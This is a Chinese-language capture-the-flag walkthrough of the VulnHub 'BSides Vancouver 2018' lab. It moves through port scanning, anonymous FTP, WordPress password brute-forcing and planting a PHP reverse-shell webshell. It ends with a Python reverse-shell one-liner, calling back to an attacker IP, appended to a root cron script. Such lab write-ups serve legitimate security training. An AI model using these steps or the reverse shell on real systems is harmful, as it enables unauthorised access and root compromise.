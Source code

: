 # BSides Vancouver 2018

下载地址：https://download.vulnhub.com/bsidesvancouver2018/BSides-Vancouver-2018-Workshop.ova



## 实战演练

### 信息收集

找到靶场IP地址：192.168.32.152

![image-20220609122650728](../../.gitbook/assets/image-20220609122650728.png)

扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.152                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 00:27 EDT
Nmap scan report for 192.168.32.152
Host is up (0.00021s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 00:0C:29:C9:21:FA (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.57 seconds

```

#### vsftp

![image-20220609122836630](../../.gitbook/assets/image-20220609122836630.png)

FTP可以使用匿名用户登录

![image-20220609123050607](../../.gitbook/assets/image-20220609123050607.png)

找到一个用户名表

```
┌──(root💀kali)-[~/Desktop]
└─# cat users.txt.bk          
abatchy
john
mai
anne
doomguy
```

#### http

找到robots.txt

![image-20220609134848562](../../.gitbook/assets/image-20220609134848562.png)

![image-20220609134936242](../../.gitbook/assets/image-20220609134936242.png)

找到`/backup_wordpress`目录

![image-20220609135004833](../../.gitbook/assets/image-20220609135004833.png)

![image-20220609135843620](../../.gitbook/assets/image-20220609135843620.png)

爆破WP密码，找到`enigma`密码

```
┌──(root💀kali)-[~/Desktop]
└─# wpscan --url http://192.168.32.152/backup_wordpress/    -U user.txt -P pasword.txt  
```

![image-20220609151223353](../../.gitbook/assets/image-20220609151223353.png)

登录系统，来到主题编辑页面

![image-20220609152151569](../../.gitbook/assets/image-20220609152151569.png)

修改为webshell文件：https://raw.githubusercontent.com/tutorial0/WebShell/master/Php/php-reverse-shell.php

![image-20220609152452626](../../.gitbook/assets/image-20220609152452626.png)

查看定时计划，找到一个root用户启动程序：`/usr/local/bin/cleanup`

![image-20220609152803354](../../.gitbook/assets/image-20220609152803354.png)

查看cleanup脚本

```
cat  /usr/local/bin/cleanup
#!/bin/sh

rm -rf /var/log/apache2/*       # Clean those damn logs!!
```



```
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" >> cleanup
```

